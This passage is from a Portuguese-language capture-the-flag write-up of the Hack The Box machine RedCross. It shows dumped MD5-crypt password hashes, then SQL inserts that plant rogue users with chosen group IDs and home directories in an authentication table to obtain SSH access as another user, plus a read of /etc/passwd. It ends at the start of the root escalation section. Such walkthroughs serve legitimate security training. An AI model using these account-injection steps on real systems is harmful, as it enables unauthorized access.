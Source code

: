 ```
tricia:$1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp.
shell:$1$krnWjnxC$ZvyaOP94ZY8Cwc0chBs8h/ 
```

Bom sabendo que esse usuário pode adicionar usuários, vamos criar um e adicionar nessa tabela

`openssl passwd -1 teste`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www18.png)

Agora adicionamos esse usuário

`insert into passwd_table (username, passwd, gid, homedir) values ('teste', '$1$gFlFdvYZ$GLMwhyZxxPBiTianGcbdX1', 0, '/');`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www19.png)

Agora verificamos se realmente foi adicionado

`select * from passwd_table;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www20.png)

Agora tentamos acesso SSH e tentamos ler a flag, mas não conseguimos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www21.png)

Pq não deu? Pq o ID dele não bate com o da penelope. Então vamos verificar qual é o ID dela no `/etc/passwd`

`grep penelope /etc/passwd`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www22.png)

Bom, agora vamos criar outro usuário chamado teste1, com a mesma senha, só com o ID 1000 ao invés de 0 e o home dele como sendo o da penelope

`insert into passwd_table (username, passwd, gid, homedir) values ('teste1', '$1$gFlFdvYZ$GLMwhyZxxPBiTianGcbdX1', 1000, '/home/penelope');`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www23.png)

Verificamos se foi criado

`select * from passwd_table;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www24.png)

Nos conectamos via ssh e verificamos que agora deu certo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www25.png)

Bom, agora já chega, vamos iniciar os passos para escalação de privilégio para root

# Escalando Privilégio (Penélope - Root)
